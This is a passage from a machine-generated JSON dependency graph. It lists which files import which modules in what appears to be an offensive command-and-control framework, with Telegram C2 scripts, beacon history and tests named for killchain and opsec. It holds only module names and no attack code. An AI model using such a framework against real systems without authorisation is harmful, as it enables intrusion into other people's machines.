"EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "paste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "paste"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "refresh"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTextureAtlas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "clearTextureAtlas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadAddon"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "loadAddon"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "strings"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyIntegers"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/xterm.js", "target": "_verifyPositiveIntegers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "csv"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "random"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "nest_asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "telegram"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "telegram.ext"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "lazyown"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_c2.py", "target": "modules.llm_adapter"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "fcntl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "pty"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "select"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "ssl"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "struct"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "termios"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "urllib.error"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "urllib.request"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "nest_asyncio"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "telegram"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "telegram.ext"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "core.parsers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "telegram_hermes.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/config.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/config.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/config.py", "target": "cryptography.hazmat.backends"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/config.py", "target": "cryptography.hazmat.primitives.ciphers"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "base64"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "requests"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "test/test_commands.py", "target": "requests.packages.urllib3.exceptions"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "ast"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "importlib.util"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "signal"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "testmeneitor.py", "target": "unittest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.llm_pool"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.lazy_agent"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.loop_ai_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/conftest.py", "target": "modules.lazy_bridge"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "moe_router"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "obs_parser"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "session_rag"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/integration_autonomous_flow.py", "target": "world_model"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_addon_creator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_addon_creator.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_addon_creator.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_addon_creator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_api_authz.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_api_authz.py", "target": "importlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_api_authz.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_api_authz.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_api_authz.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_autonomous_ops.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_autonomous_ops.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_autonomous_ops.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_autonomous_ops.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_c2_route_auth.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_c2_route_auth.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_c2_route_auth.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_c2_route_auth.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_contract_manifest.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_contract_manifest.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_contract_manifest.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_contract_manifest.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_infra_report.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_infra_report.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_infra_report.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_infra_report.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_killchain.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_killchain.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_killchain.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_killchain.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_llm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_llm.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_llm.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_llm.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_no_shell.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_no_shell.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_no_shell.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_no_shell.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_opsec.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_opsec.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_opsec.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_opsec.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_phase1.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_phase1.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_phase1.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_phase1.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_shell_semantics.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_shell_semantics.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_shell_semantics.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_shell_semantics.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_tests.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_tests.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_tests.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_tests.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_ux_usability.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_ux_usability.py", "target": "subprocess"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_ux_usability.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/run_mutation_ux_usability.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "secrets"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "typing"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "unittest.mock"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aci_planner.py", "target": "aci_planner"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "flask_login"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "lazyc2.addon_creator"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_addon_creator.py", "target": "lazyc2.blueprints.addons"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "os"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "stat"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_aes_key_propagation.py", "target": "core.config"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ai_commands_llm.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ai_commands_llm.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ai_commands_llm.py", "target": "cli.commands.ai"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_ai_commands_llm.py", "target": "modules.llm_factory"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "time"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "hashlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_authz.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_key_resolution.py", "target": "utils"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "flask"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "core.api_authz"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "lazyc2.blueprints.api_v1"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "modules.beacon_history"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_api_v1.py", "target": "modules.db"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "cli.commands.lazyops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_asset_gate.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "json"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "sys"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "modules.attack_surface3d"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface3d.py", "target": "modules.intel_fusion"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface_addons.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface_addons.py", "target": "re"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface_addons.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface_addons.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_attack_surface_addons.py", "target": "yaml"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "__future__"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "tempfile"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "pathlib"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "pytest"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.auto_crypto"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "types"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.commands.session_ops"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "builtins"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "modules.lazy_loop"}, {"confidence": "EXTRACTED", "relation": "imports", "source": "tests/test_auto_crypto.py", "target": "cli.commands.misc_migrated"}, {"confidence": "EXTRACTED", "relation": "imports", "source": 